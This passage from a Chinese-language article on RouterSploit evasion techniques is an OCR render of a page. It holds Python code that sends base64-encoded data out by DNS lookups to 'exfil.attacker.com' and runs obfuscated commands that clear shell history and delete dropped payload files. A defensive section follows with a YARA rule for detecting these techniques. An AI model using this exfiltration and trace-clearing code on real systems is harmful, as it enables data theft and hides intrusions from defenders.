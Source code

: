 ```python
            encoded = base64.b64encode(chunk.encode()).decode()
            domain = f"{encoded}.exfil.attacker.com"
            try:
                import socket
                socket.gethostbyname(domain)
            except:
                pass
        
        return True
    
    def clean_traces(self):
        """清理痕迹"""
        clean_commands = [
            "history -c",
            "echo '' > ~/.bash_history",
            "dmesg -c",
            "find /tmp -name '*.sh' -delete",
            "find /var/tmp -name '*.elf' -delete"
        ]
        
        for cmd in clean_commands:
            obfuscated = self.obfuscator.obfuscate_bash_command(cmd)
            self._execute_command(obfuscated)
```

---

## 七、检测与防御

### 1. 检测 RouterSploit 免杀技术

**YARA 规则示例：**
```yara
rule RouterSploit_Stealth_Techniques {
    meta:
        description = "Detects RouterSploit stealth techniques"
        author = "BlueTeam"
    
    strings:
        $base64_decode = "base64.*decode" ascii
        $xor_obfuscation = "xor.*encrypt" ascii
        $command_obfuscation = "echo.*base64.*sh" ascii
        $dns_exfiltration = "gethostbyname.*base64" ascii
    
    condition:
        any of them
}
```

### 2. 网络检测规则
